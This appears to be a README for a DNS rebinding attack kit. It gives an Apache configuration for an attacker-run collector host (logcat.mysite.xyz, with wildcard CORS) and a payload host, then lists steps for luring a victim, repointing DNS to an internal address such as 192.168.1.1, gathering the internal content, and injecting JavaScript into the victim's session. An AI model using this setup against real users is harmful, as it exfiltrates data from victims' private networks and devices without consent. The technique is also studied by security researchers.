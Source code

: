 # DNS Rebinding

## Installation
- Make sure that logcat.mysite.xyz points to `logcat.py` python file
- logcat.mysite.xyz must be enabled for CORS
- rebind.mysite.xyz points to payload.html

A dummy apache config is given below
```
<Directory /home/ubuntu/mysite/dns-rebind/>
Options +ExecCGI
AddHandler cgi-script .py
</Directory>

<VirtualHost *:80>
ServerName logcat.mysite.xyz
DocumentRoot /home/ubuntu/mysite/dns-rebind/
Header always set Access-Control-Allow-Origin "*"
DirectoryIndex logcat.py
</VirtualHost>

<VirtualHost *:80>
ServerName rebind.mysite.xyz
ServerAlias rebind2.mysite.xyz
DocumentRoot /home/ubuntu/mysite/dns-rebind/
DirectoryIndex payload.html
</VirtualHost>
```

## Steps to reproduce
- Send victim to the hosted server address, here rebind.mysite.xyz    
- Goto DNS Settings and point rebind.mysite.xyz to internal IP, say 192.168.1.1
- `watch ls -lt logcat.log`    
- You will soon start getting files in logcat.log directory, that is the content of internal IP.    
- After you start getting files, edit `logcat.py` and use the `inject` var to inject JS    
- You can inject builtin `navigate(_url_, _method_, _data_)` to navigate to different page.    
- Run `bash uniq_files logcat.log` to get all the uniquely fetched files    
- In the end, make sure to clean the logcat.log directory using `rm -f logcat.log/*` to save disk space.
